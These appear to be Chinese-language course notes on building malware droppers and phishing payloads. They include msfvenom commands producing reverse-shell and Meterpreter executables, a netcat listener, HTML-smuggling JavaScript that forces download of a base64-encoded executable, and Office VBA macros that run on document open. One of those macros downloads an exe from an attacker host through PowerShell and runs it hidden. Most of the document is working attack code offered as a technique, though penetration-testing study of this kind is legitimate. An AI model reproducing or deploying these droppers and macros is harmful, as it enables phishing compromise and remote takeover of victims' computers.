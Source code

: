 # Will You Be My Dropper

## 3.1.1 Staged vs Non-staged Payloads(分段与不分段payload)

```windows/shell_reverse_tcp```，不分段payload（Non-staged），包含所有攻击代码

``` windows/shell/reverse_tcp```，分段payload（Staged），包含执行回调的最少量代码，然后检索任何剩余的代码并在目标内存中执行它。这种精简后的有效载荷不会像非分级有效载荷那样占用大量内存，并且可能会逃避反病毒程序。


Non-staged有效载荷使用```_```

Staged有效载荷使用```/```

## 3.1.2 Building Our Droppers

1. 建造非分段payload：


```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.120 LPORT=444 -f exe -o /var/www/html/shell.exe
```

监听
```
sudo nc -lnvp 444
```

2. 建造分段payload

```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfstaged.exe
```

监听
```
msf5 exploit(multi/handler) > exploit

[*] Started HTTPS reverse handler on https://192.168.119.120:443
```

## HTML Smuggling

这一节主要是通过js把一个exe通过base64加解密，然后诱使用户从浏览器下载可执行文件，并且执行（chrome浏览器会有可执行文件警告）

编译payload
```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfstaged.exe
```

base64解密exe
```
base64 /var/www/html/msfstaged.exe
```

前端下载代码：
```
<html>
    <body>
        <script>
          function base64ToArrayBuffer(base64) {
    		  var binary_string = window.atob(base64);
    		  var len = binary_string.length;
    		  var bytes = new Uint8Array( len );
    		  for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
    		  return bytes.buffer;
      		}
      		
      		var file ='TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAA...
      		var data = base64ToArrayBuffer(file);
      		var blob = new Blob([data], {type: 'octet/stream'});
      		var fileName = 'msfstaged.exe';
      		
      		var a = document.createElement('a');
      		document.body.appendChild(a);
      		a.style = 'display: none';
      		var url = window.URL.createObjectURL(blob);
      		a.href = url;
      		a.download = fileName;
      		a.click();
      		window.URL.revokeObjectURL(url);
        </script>
    </body>
</html>
```

# Phishing with Microsoft Office

## Installing Microsoft Office

安装过程略。。

## VBA 简介

一个运行cmd.exe的宏代码
```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "cmd.exe"
    CreateObject("Wscript.Shell").Run str, 0
End Sub
```

## Let PowerShell Help Us

一个执行powershell的宏代码（将从 Web 服务器中提取 Meterpreter 可执行文件。我们添加了一个小的时间延迟，以允许文件完全下载。然后对用户执行隐藏的文件。这将产生一个反向 Meterpreter shell）
```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path + "\msfstaged.exe"
    Wait (2)
    Shell exePath, vbHide

End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```